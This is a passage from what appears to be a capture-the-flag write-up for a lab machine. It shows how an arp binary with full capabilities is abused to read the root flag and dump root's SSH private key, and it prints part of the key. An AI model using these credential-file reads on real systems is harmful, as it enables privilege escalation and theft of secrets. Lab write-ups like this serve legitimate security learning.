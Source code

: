 

### File Read

[GTFOBins](https://gtfobins.github.io/gtfobins/arp/) has a page on `arp`
that shows how it can be abused to read files. While there's no specific
section on capabilities, having all of them is basically running as
root.

I can use this to read the flag:



    game-adm@earlyaccess:/$ /usr/sbin/arp -v -f /root/root.txt
    >> 7bf864a4************************
    arp: format error on line 1 of etherfile /root/root.txt !



I could also read the `/etc/shadow` file and try to crack the password,
but there's also an SSH key in `/root/.ssh`:



    game-adm@earlyaccess:/$ /usr/sbin/arp -v -f /root/.ssh/id_rsa | head     
    >> -----BEGIN OPENSSH PRIVATE KEY-----
    -----BEGIN: Unknown host
    arp: cannot set entry on line 1 of etherfile /root/.ssh/id_rsa !
    >> b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
    arp: format error on line 2 of etherfile /root/.ssh/id_rsa ! 
    >> NhAAAAAwEAAQAAAQEArIOXIvZx/5LspJVtY/Y5eT3B0g+hf1t4NEwLljBNrVzW3Y1JFDTL
    arp: format error on line 3 of etherfile /root/.ssh/id_rsa ! 
    >> bsqeX+jY1B0lLH361DrhTMra1KSHtTtk+Y6FLqUaYOnlxPlEnaldg/F9c+ch6bzgvEoYai
    arp: format error on line 4 of etherfile /root/.ssh/id_rsa !
    ...[snip]...



The formatting is a bit messed up, but it can be cleaned, or I can do it
in one line, redirecting the errors to stdout, using `grep` to select
the lines with the key, and then `cut` to remove the `>> `:



    game-adm@earlyaccess:/$ /usr/sbin/arp -v -f /root/.ssh/id_rsa 2>&1 | grep ">>" | cut -d ' ' -f2-
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAQEArIOXIvZx/5LspJVtY/Y5eT3B0g+hf1t4NEwLljBNrVzW3Y1JFDTL
    bsqeX+jY1B0lLH361DrhTMra1KSHtTtk+Y6FLqUaYOnlxPlEnaldg/F9c+ch6bzgvEoYai
    Z/GLfnkdrY9mmU3wrCi4c7OIe1YOwPPtNLYJb76qg7dVrj9beJjT+ZRG7JflgS/aQtFUVe
    9NkES/xNk80E4q1Ypbodj8pJcyWek9LXC5/+sdhV4KnUHZjoNZ+BlcpKsYvC0K1we02oC7
    3p05jrBZXYwCgzPTy/8DZ9FZr6oSBleQR8lPl6xPo6D32gcHRvVJCSakvVcjJWH2L227+3
    6g4RguqXGwAAA8ihamwioWpsIgAAAAdzc2gtcnNhAAABAQCsg5ci9nH/kuyklW1j9jl5Pc
    HSD6F/W3g0TAuWME2tXNbdjUkUNMtuyp5f6NjUHSUsffrUOuFMytrUpIe1O2T5joUupRpg
    6eXE+USdqV2D8X1z5yHpvOC8ShhqJn8Yt+eR2tj2aZTfCsKLhzs4h7Vg7A8+00tglvvqqD
    t1WuP1t4mNP5lEbsl+WBL9pC0VRV702QRL/E2TzQTirViluh2PyklzJZ6T0tcLn/6x2FXg
    qdQdmOg1n4GVykqxi8LQrXB7TagLvenTmOsFldjAKDM9PL/wNn0VmvqhIGV5BHyU+XrE+j
    ...[snip]...
